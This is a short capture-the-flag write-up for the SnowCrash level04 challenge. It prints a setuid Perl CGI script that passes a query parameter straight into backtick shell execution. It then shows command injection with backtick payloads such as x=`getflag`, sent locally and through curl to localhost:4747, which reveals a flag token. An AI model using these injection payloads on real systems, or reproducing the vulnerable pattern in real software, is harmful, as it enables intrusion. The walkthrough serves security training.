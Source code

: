 # Level 04

    level04@SnowCrash:~$ ls -al
    total 16
    dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
    -r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
    -r-x------  1 level04 level04  675 Apr  3  2012 .profile
We have a level04.pl file created by flag04

    level04@SnowCrash:~$ cat level04.pl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
 We see that there is an URL localhost:4747 and that perl function can execute code in certain condition
:

    level04@SnowCrash:~$ ./level04.pl x=`whoami`
    Content-type: text/html
    level04
    level04@SnowCrash:~$ ./level04.pl x=`uname -a`
    Content-type: text/html
    Linux
    level04@SnowCrash:~$ ./level04.pl x=`getflag`
    Content-type: text/html
    Check
The perl function only gets the first element of the parameter, let's try it with curl:

    level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    
